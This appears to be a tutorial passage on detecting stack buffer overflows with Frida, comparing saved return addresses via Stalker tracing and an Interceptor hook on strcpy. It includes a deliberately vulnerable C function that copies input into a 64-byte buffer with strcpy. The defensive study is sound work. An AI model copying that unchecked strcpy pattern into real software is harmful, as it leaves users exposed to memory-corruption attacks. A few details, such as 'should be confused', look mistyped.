## Defending against stack buffer overflow through dynamic instrumentation

### Following the execution flow

The solution proposed here to this problem relies on the Frida [Stalker](https://frida.re/docs/javascript-api/#stalker), and consists in keeping track of the instructions that are being executed. For instance, regarding the vulnerable function `processData` , there would be three relevant moments, marked below in the assembly code.

```asm
   0x565555ee  <+0>:	push   ebp 				<---------------------------------  ① 
   0x565555ef  <+1>:	mov    ebp,esp
   0x565555f1  <+3>:	push   ebx
   0x565555f2  <+4>:	sub    esp,0x44
   0x565555f5  <+7>:	call   0x565554c0 <__x86.get_pc_thunk.bx>
   0x565555fa <+12>:	add    ebx,0x1436
   0x56555600 <+18>:	sub    esp,0x8
   0x56555603 <+21>:	push   DWORD PTR [ebp+0x8]
   0x56555606 <+24>:	lea    eax,[ebp-0x48]
   0x56555609 <+27>:	push   eax
   0x5655560a <+28>:	call   0x56555430 <strcpy@plt>  <-------------------------  ② 
   0x5655560f <+33>:	add    esp,0x10
   0x56555612 <+36>:	sub    esp,0x8
   0x56555615 <+39>:	lea    eax,[ebp-0x48]
   0x56555618 <+42>:	push   eax
   0x56555619 <+43>:	lea    eax,[ebx-0x12cc]
   0x5655561f <+49>:	push   eax
   0x56555620 <+50>:	call   0x56555410 <printf@plt>
   0x56555625 <+55>:	add    esp,0x10
   0x56555628 <+58>:	nop
   0x56555629 <+59>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x5655562c <+62>:	leave  
   0x5655562d <+63>:	ret 					<---------------------------------  ③ 
```


In  ①, the function has been called and the first instruction of it is going to execute. At that moment, the call is assigned an identifier and stored in a call stack. Moreover, an entry for this identifier is created in a dictionary, storing the return address, which corresponds to the four bytes on the top of the stack before executing the first instruction of the function.

In  ②, the dangerous function, `strcpy` , is going to be called.

In ③, the execution flow is going to return from `processData`. At this point, if the vulnerability has been exploited, the return address would have been overwritten with a different address, chosen by the attacker. This fact would eventually lead to the execution of a shellcode. Thus, in order to counter this effect, before executing the `ret` instruction, the return address will be extracted from the stack and compared with the address previously stored in the dictionary. If they differ, the execution will be aborted.

Two data structures will be used for this algorithm:

* A call stack, storing identifiers for the calls to functions: when a function `b()` is called from a function `a()`, this call is assigned an identifier `x` which is pushed onto the stack. When function `b()` returns to function `a()`, the identifier `x` is popped from the call stack. 
* A dictionary, where an entry is created for each identifier when it is pushed onto the call stack. The entry for a particular identifier is destroyed when the identifier is popped from the call stack. Each entry contains the address of the function called and the return address, which is taken from the top of the stack.

NOTE: the *call stack* should be confused with the *stack* in memory :)

#### Beginning of the function (①)

Let `h()` be a generic function. When its first instruction is going to be executed, an identifier `i` is created and stored in the call stack. An entry is created in the dictionary for the identifier `i`, storing the address of the `h()` function and the return address (`@ret_i`). The return address is grabbed from the top of the stack.




#### End of the function (③)

Assuming that the last instruction of the `h()` function is `ret` , when it is about to be executed, an identifier is popped from the call stack. This identifier is `i`, which was generated at the beginning of the `h()` function. The entry in the dictionary that corresponds to the identifier `i` is accessed, and the stored return address, `@ret_i`, is recovered. The address stored on top of the stack, `@ret`, is compared with `@ret_i`. If the two values match, the execution can continue; otherwise the execution is aborted.

Note that between ① and ③, a number of calls will usually occur. Thus, the assumption is that, at ③, the call stack will be in the same state as in ①.



#### Scope customization

The scope where the algorithm is applied can be specified. For instance, in the case that there is a very specific area that needs to be protected. The performance will be much better if the scope is reduced to this area, rather than applying the algorithm all across the program and its dependencies.

```javascript
// ---------------------------- Configuration ----------------------------
var targetModuleName = "prog_32b";
var startOffset = 0x5BD;
var endOffset = 0x6CD; 
var targetModule = Process.findModuleByName(targetModuleName);
var targetModuleBaseAddr = ptr(targetModule.base);
var startAddr = targetModuleBaseAddr.add(startOffset);
var endAddr = targetModuleBaseAddr.add(endOffset);
```

<br>[⬆ top](#table-of-contents)

#### Hooking the dangerous functions

The solution proposed here to this problem relies on the Frida [Interceptor](https://frida.re/docs/javascript-api/#interceptor).

Let us consider the example program shown in the [PoC](#target), where a vulnerable function, `processData` calls a dangerous function `strcpy`.

```c
void processData(char *data) {
    char buffer[64];    
    strcpy(buffer, data);    	// <---------------- BoF!
    printf("Data processed: %s\n", buffer);
}

int main(int argc, char** argv) {    
	// (...)
    processData(input);
    // (...)
}
```


When the `strcpy` function starts executing, the address to return to the `processData` function is at the top of the stack. It is the address `0x5655560f`. Down in the stack, it is possible to also spot the address to return from the `processData` function to the `main` function: `0x565556a9`.




In the picture below, the moment when `strcpy` is going to start executing is shown at the upper side, the moment when `strcpy` is going to return is shown on the lower side. 

An algorithm to identify a corruption on the address to return to `main` (from `processData`) is to recover its value when `strcpy` is going to start, and retrieve it again when `strcpy` is about to return, comparing the two values. 

At he beginning of `strcpy`, the `EBP ` register is still pointing to the base of the `processData` stack frame. If the content of `EBP` is added 4 bytes (x86 architecture), the resulting value will be the address where the return address of `processData` is stored.  Let us call `&a` the result of `ebp` + 4  and `@ret_start` the value pointed by `&a`. `@ret_start` is the address to return from `processData` to `main`, recovered from the stack when `strcpy` is going to start executing. In the example,  `&a`=`0xffffcd9c`  and `@ret_start`=`0x565556a9`. This logic can be implemented in the `onEnter` callback of the Frida Interceptor.

At the end of `strcpy`, the address to return from  `processData` to `main` can be recovered again by reading the data stored at the address `&a`, in the example `0xf7f58ab`. If they do not match, the execution is aborted. This logic can be implemented in the `onLeave` callback of the Frida Interceptor.




The implementation of the algorithm in Javascript code  is shown below:

```javascript
Interceptor.attach(Module.getExportByName(null, 'strcpy'), {
    onEnter(args) {                              
        this.callerRetAddrPtr = this.context.ebp.add(4); 
        this.originalCallerRetAddr = Memory.readPointer(this.callerRetAddrPtr);
    },
    onLeave (retval) {        
        var callerRetAddrBeforeRet = Memory.readPointer(this.callerRetAddrPtr);
        
        if (this.originalCallerRetAddr.toString() !== callerRetAddrBeforeRet.toString()){
            // abort
        }         
    }    
  });
```

<br>[⬆ top](#table-of-contents)
